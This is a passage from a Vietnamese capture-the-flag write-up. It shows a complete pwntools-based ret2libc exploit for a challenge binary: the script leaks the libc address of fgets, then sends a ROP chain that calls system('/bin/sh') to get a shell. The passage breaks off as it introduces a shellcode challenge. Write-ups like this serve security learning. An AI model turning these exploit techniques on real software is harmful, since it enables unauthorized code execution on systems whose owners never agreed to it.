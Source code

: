 ```c
}
```

Một bài thể hiện rõ kĩ thuật `ret2libc`, nên mình không suy nghĩ gì thêm và viết exploit luôn:

```py
#!/usr/bin/python3
from pwncus import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./libpwn_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*main+152
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

def exploit():

    ru(b'But wait, I have a present for you!\n')
    libc.address = hexleak(rl()) - libc.sym.fgets
    slog('Libc base',libc.address)

    pl = cyclic(0x38) + p64(0x0000000000401016) + p64(0x000000000010f75b + libc.address) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system)
    sla(b'present:', pl)

    interactive()

if __name__ == '__main__':
    exploit()
```

## asm machine

Ở bài này là một bài shellcode và là một bài khá thú vị đối với cá nhân mình, flow của chương trình chỉ cơ bản là thực thi những đoạn mã `assembly` mà ta nhập vào nên mình đã không ngần ngại viết một đoạn shellcode để `get shell`:

